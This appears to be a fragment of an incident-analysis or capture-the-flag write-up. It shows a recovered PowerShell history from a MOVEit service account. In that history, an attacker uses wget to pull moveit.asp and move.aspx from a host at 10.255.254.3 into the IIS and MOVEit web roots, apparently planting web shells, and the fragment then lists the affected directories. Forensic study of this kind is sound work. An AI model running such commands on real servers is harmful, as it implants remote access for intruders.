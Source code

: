 ## Console history
```powershell
└─$ cat ./uploads/auto/C%3A/Users/moveitsvc.WIN-LR8T2EF8VHM.002/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\inetpub\wwwroot
wget http://10.255.254.3:9001/moveit.asp
dir
wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp
dir
cd C:\MOVEitTransfer\wwwroot
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```
## Artifact directory
- C:\inetpub\wwwroot
- C:\MOVEitTransfer\wwwroot

